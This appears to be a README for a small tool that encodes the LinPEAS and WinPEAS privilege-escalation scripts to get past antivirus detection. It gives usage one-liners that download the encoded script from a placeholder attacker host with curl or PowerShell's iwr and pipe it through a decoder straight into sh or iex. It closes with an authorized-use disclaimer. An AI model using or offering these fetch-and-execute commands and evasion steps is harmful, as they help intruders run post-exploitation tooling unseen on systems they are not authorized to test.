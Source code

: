 # obfuscated_linpeas
Just a quick setup to bypass most AV with PEAS scripts.
___
Run:
```bash
python3 encode.py linpeash.sh > encoded.txt
```
Fetch the generated password from the `encoded.txt` file (e.g. : `# Key: 3Wr9QKXC`)

Host `encoded.txt` and `decode.sh` and just use the decode usage command (e.g.: `curl http://your_host/encoded.txt | bash decode.sh -p 3Wr9QKXC | sh`)

It should be working with WinPEAS on Windows with `iwr -useb http://your_host/encoded.txt | iwr -useb http://your_host/decode.ps1 | iex -ArgumentList "-Key 3Wr9QKXC"` but I didn't tried it yet.

Each encoding uses a new random key, unique signature every time.

Minimal Bash/Perl decoder to avoid detection.

Works over HTTP, supports stdin piping.
___
This tool is intended for educational and authorized security testing purposes only.
Unauthorized use of obfuscation techniques like this to bypass detection or execute payloads on systems without explicit permission is illegal and unethical.
